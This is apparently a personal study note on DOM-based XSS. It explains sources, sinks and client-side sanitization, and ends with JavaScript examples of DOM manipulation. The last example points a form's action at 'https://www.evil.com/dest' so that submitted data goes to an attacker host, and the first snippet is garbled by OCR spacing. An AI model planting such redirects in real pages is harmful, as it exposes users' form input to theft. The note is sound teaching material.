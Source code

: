 tags: #web-security #xss

# DOM-based XSS

links: [[505 WS TOC - Cross Site Scripting (XSS)|WS TOC - Cross Site Scripting (XSS)]] - [[500 WS MOC|WS MOC]] - [[themes/000 Index|Index]]

---

- Document Object Model (DOM) is a tree-like representation of the content of a webpage which can be manipulated by javascript ([[Stored XSS#^7ac058|Example]])
- No server interaction, malicious payload can be triggered by a script already on the page which takes user input and improperly processes it, leading to script execution
- Example
	- Website has javascript which prints the URL of the current page using 'document.write()'
	- If an attacker can manipulate the URL and add a script to it, that script will be executed when the page loads
- Main point
	- This type of XSS relies on the client-side environment to execute malicious scripts without communication with the server
	- Bad because the server doesn't get a chance to sanitize the input
	- Sanitization therefore has to happen on the client side as well
- Sources: Where user input comes from
	- document.URL, location.href, location.search
- Sink: Where the user input goes to
	- document.write(), innerHTML, element.src (dynamically adding / changing content on the page)

```javascript
// Create a new node and insert it in the tree
var newli = document . createElement ( " l i " ) ; var newtxtli = document . createTextNode ( " Four " ) ; newli . appendChild ( newtxtli ) ; document . getElementById ( " menu−l i s t " ) . appendChild ( newli ) ;

// Delete a node
firstchild = document.getElementById( "menu−list" )
	.firstChild;
document.getElementById("menu−list")
	.removeChild(firstchild);

// Modify a node
document.getElementById("addbutton")
	.onclick=otherFunction;

// Change the title of a page
var title = document.getElementById("title");
title.innerHTML = "<h1>New Title</h1>";

// Remove the error messages
var node = document.getElementById("error_list");
while (node.firstChild) {
	node.removeChild(node.firstChild);
}

// Change the destination of a formular
document.getElementById("form")
	.action="https://www.evil.com/dest";
```

---
links: [[505 WS TOC - Cross Site Scripting (XSS)|WS TOC - Cross Site Scripting (XSS)]] - [[500 WS MOC|WS MOC]] - [[themes/000 Index|Index]]
